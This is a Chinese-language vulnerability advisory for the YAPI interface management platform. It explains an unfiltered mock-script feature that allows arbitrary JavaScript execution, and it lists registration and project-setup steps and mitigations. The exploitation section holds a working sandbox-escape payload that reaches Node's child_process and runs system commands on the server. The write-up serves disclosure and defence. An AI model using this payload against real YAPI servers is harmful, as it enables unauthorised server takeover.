

### 一 漏洞描述
YAPI接口管理平台是去哪儿网移动架构组的开源项目，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。

该漏洞存在于YAPI的mock脚本服务上，是由于mock脚本自定义服务未对JS脚本加以命令过滤，用户可以添加任何请求处理脚本，攻击者可利用该漏洞在受影响的服务器上执行任意javascript代码，最终导致接管并控制服务器。

### 二 漏洞利用
1 注册账号


2 在里面新建项目

3 设置全局mock脚本及接口，在设置里面找到全局mock脚本，勾上是否开启。mock脚本内容如下
```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("whoami && ps -ef").toString()
```

4 保存之后，接着设置接口，添加接口，直接访问Mock地址，触发js执行。


### 三 漏洞修复
1、更改Yapi运行端口  
2、关闭Yapi注册
3、关闭Yapi Mock


> 参考链接  
> https://cloud.tencent.com/developer/article/1856221
> 2021.1月报告的: https://github.com/YMFE/yapi/issues/2099
> 挨喷的: https://github.com/YMFE/yapi/issues/2233
